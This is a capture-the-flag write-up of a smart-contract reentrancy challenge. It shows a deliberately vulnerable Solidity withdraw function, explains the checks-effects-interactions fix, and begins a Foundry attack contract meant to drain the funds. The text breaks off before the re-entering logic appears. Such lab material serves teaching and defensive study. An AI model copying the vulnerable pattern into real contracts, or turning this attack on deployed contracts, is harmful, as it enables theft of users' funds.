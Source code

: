
# #Re-entrancy

**Challenge :** I need to steal all the funds from the contract.

**Contract**
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.12;

import "openzeppelin-contracts-06/math/SafeMath.sol";

contract Reentrance {
    using SafeMath for uint256;

    mapping(address => uint256) public balances;

    function donate(address _to) public payable {
        balances[_to] = balances[_to].add(msg.value);
    }

    function balanceOf(address _who) public view returns (uint256 balance) {
        return balances[_who];
    }

    function withdraw(uint256 _amount) public {
        if (balances[msg.sender] >= _amount) {
            (bool result,) = msg.sender.call{value: _amount}("");
            if (result) {
                _amount;
            }
            balances[msg.sender] -= _amount;
        }
    }

    receive() external payable {}
}
```
This is a basic attack in the Web3 space where the attacker Re-enters / re-calls the withdraw funds function before updating the state . 

We should avoid this by following CEI (CHECKS - EFFECTS - INTERACTIONS).

Any contract especially that deals with the fund TX's need to follow this CEI standard if not we can steal all the funds from that contract as follows 

**Here's the Foundry script that solves the challenge**
```foundry
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.12;

import {Reentrance} from "../src/Re-entrancy.sol";
import { Script } from "forge-std/Script.sol";
import { console } from "forge-std/console.sol";

contract Attack{
    Reentrance reentrance;
    constructor(Reentrance _reentrance) public {
        reentrance = _reentrance;
    }

    function _donate() external payable{
        reentrance.donate{value: msg.value}(address(this));
    }

```